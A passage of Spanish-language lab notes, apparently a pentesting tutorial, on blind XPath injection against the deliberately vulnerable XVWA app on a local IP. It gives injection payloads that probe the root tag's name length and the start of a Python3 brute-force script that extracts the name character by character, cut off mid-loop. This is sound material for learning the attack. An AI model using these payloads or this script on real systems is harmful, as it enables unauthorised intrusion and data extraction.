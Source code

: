 Podemos conseguir la longitud del nombre de la etiqueta que hemos descubierto haciendo uso de ``string-length``

- ``1' and string-length(name(/*[1]))>='2``

En este caso estamos preguntando si el nombre de la etiqueta *primaria/raíz* posee una longitud mayor o igual a ``2`` caracteres.

![[XPATH 8.png]]

Ahora probemos con menos, ya que sabemos que no posee mas de ocho caracteres.

![[XPATH 9.png]]

### Identificando nombre completo de la etiqueta primaria/raíz con script de Python3

Para hacer esto mucho mas rápido vamos a hacer un script sencillo en Python3 para automatizar todo.

```python
#!/usr/bin/python3

from pwn import *

import requests
import time
import sys
import pdb
import string
import signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://192.168.0.139/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ''
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Inciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 8):
        for character in characters:
    
            post_data = {
                'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8681:
```